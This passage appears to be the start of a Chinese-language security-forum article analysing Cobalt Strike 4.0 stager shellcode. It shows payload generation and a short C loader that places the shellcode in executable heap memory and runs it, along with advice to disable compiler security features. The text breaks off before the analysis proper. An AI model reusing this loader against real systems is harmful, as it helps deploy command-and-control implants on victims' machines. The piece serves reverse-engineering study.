 0x01 本文主要内容
===========

本文主要对cobaltstrike4.0中shellcode的运作原理的分析。

0x02 Cobaltstirke 4.0 shellcode分析
=================================

一、shellcode生成
-------------

Cobaltstrike启动服务端，然后打开aggressor 端，如下图生成payload：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-9705c476316e658e60c291ba0d331f9116abddd1.png)  
打开生成的payload：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8815e803669794e97cb35479501528e7e7e7b079.png)

长度是1600个byte

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-67a8ae4c147d32064483286ab755d7d8b93acb8f.png)

创建一个加载这个段机器码的加载器，在cobaltstrike中这段机器码我们一般叫stager，所以我们简单写一个stagerloader:

二、shellcodeloader
-----------------

这里实现的方法很多，可以直接通过c++内联汇编，获取shellcode的存储地址，然后直接跳转过去；也可以分配内存空间，将对应payload当成一个返回类型为void的函数来执行。如下图，也是比较常见的c实现的loader的形式：

```php
#include   
​  
int main(void) {  
    unsigned char buf\[\] = 上面那串payload；;  
    //创建一个堆（这里看个人习惯，不建堆也可以直接分配）  
    HANDLE myHeap = HeapCreate(HEAP\_CREATE\_ENABLE\_EXECUTE, 0, 0);  
    //从堆上分配一块内存  
    void\* exec = HeapAlloc(myHeap, HEAP\_ZERO\_MEMORY, sizeof(buf));  
    //payload复制过去  
    memcpy(exec, buf, sizeof(buf));  
    //将exec强制转换成返回类型为void的函数指针，并调用这个函数  
    ((void(\*)())exec)();  
    return 0;  
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-7a0667c9e5201822fb8eba61cc53e56636bc98d7.png)

编译链接生成exe，（使用vs编译链接的时候建议把什么优化，安全检查，随机基址，以及相关清单信息啥的都关掉，方便后面我们对exe进行调试）

通过x86 的release生成的exe如下：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8d62b98e3a1d0d1206ca5a6d62f92b7eea3e8d86.png)

完成之后我们先简单测试下，丢到虚拟机运行下，看下上线啥的是否正常:
